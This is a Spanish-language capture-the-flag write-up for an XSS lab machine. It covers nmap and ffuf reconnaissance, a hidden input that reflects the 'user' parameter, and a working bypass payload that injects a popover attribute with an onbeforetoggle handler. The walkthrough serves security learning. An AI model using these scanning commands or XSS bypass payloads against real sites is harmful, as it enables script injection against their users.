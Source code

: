 ```yaml
---
icon: flag
---
```


# XSSaS BugBountyLabs (Experto)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 03:37 EDT
Nmap scan report for 192.168.1.149
Host is up (0.00036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Werkzeug/2.2.2 Python/3.11.2
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Verificaci\xC3\xB3n de Usuario
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 19 Mar 2025 07:37:42 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 549
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="es">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Verificaci
|     Usuario</title>
|     </head>
|     <body>
|     <h1>Usuario no encontrado</h1>
|     <button id=y popovertarget=x>Click Here</button>
|     <form><input type="hidden" value=""></form>
|     <footer>
|     <hr>
|     <p>Powered by <strong>archyxsec</strong></p>
|     </footer>
|     <script>
|     Simulate a click :)
|     document.getElementById("y").click();
|     </script>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 19 Mar 2025 07:37:42 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=3/19%Time=67DA7445%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2D3,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x2
SF:0Python/3\.11\.2\r\nDate:\x20Wed,\x2019\x20Mar\x202025\x2007:37:42\x20G
SF:MT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x
SF:20549\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"es\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\
SF:x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20i
SF:nitial-scale=1\.0\">\n\x20\x20\x20\x20<title>Verificaci\xc3\xb3n\x20de\
SF:x20Usuario</title>\n</head>\n<body>\n\x20\x20\x20\x20<h1>Usuario\x20no\
SF:x20encontrado</h1>\n\x20\x20\x20\x20<button\x20id=y\x20popovertarget=x>
SF:Click\x20Here</button>\n\x20\x20\x20\x20<form><input\x20type=\"hidden\"
SF:\x20value=\"\"></form>\n\x20\x20\x20\x20<footer>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<hr>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Powered\x20by\x20<s
SF:trong>archyxsec</strong></p>\n\x20\x20\x20\x20</footer>\n\x20\x20\x20\x
SF:20<script>\n\x20\x20\x20\x20\x20\x20\x20\x20//\x20Simulate\x20a\x20clic
SF:k\x20:\)\n\x20\x20\x20\x20\x20\x20\x20\x20document\.getElementById\(\"y
SF:\"\)\.click\(\);\n\x20\x20\x20\x20</script>\n</body>\n</html>")%r(HTTPO
SF:ptions,C7,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20Pyt
SF:hon/3\.11\.2\r\nDate:\x20Wed,\x2019\x20Mar\x202025\x2007:37:42\x20GMT\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20OP
SF:TIONS,\x20GET\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")
SF:%r(RTSPRequest,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20
SF:\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-
SF:8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<p>Error\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Messag
SF:e:\x20Bad\x20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\
SF:x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20
SF:\x20</body>\n</html>\n");
MAC Address: 08:00:27:9C:CF:BC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.97 seconds
```

Vemos que hay un `SSH` y un puerto `80`, si entramos en la pagina web del puerto `80` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Ya de primeras podemos intuir que tiene que ver con algun parametro o algo que pueda estar detectando el si somos un usuario o no, si investigamos un poco veremos que nos esta pidiendo un usuario, pero si inspeccionamos la pagina veremos esta linea bastante interesante:

```html
<form><input type="hidden" value=""></form>
```

Esta escondido a nivel de pagina y el valor esta vacio, si por ejemplo probamos con poner `?user=` como parametro en la `URL` veremos lo siguiente:

```
URL = http://<IP>/?user=test
```

Info:

```html
<form><input type="hidden" value="test"></form>
```

Vemos que el valor se esta rellenando de forma correcta, pero igualmente tambien se puede hacer con un poco de `fuzzing`.

## FFUF

```shell
ffuf -u http://<IP>/\?FUZZ\=test -w <WORDLIST> -fs 549
```

Info:

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.149/?FUZZ=test
 :: Wordlist         : FUZZ: /home/kali/Downloads/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 549
________________________________________________

user                    [Status: 200, Size: 553, Words: 94, Lines: 21, Duration: 47ms]
:: Progress: [6453/6453] :: Job [1/1] :: 884 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

Vemos que nos lo encontro de forma correcta, ahora vamos a probar a realizar un `XSS` en dicho parametro, que es de lo que se trata esta maquina.

```
URL = http://<IP>/?user="><script>alert('XSS')</script>
```

Pero nos respondera lo siguiente:

<figure><img src="../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

Pero si intentamos un `Bypass` no nos dejara, si investigamos vemos este parametro de aqui:

<figure><img src="../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

Y si buscamos que es nos vamos a encontrar con lo siguiente:

URL = [Info popovertarget](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)

Vemos que utiliza un `payload` en concreto para realizar el `XSS` con dicho parametro o atributo, por lo que nuestro `payload` tiene que quedar de la siguiente forma:

```
"id=x popover onbeforetoggle="prompt(1)
```

Ahora si ejecutamos esto de la siguiente forma:

```
URL = http://<IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado de forma correcta, por lo que habremos terminado la maquina.
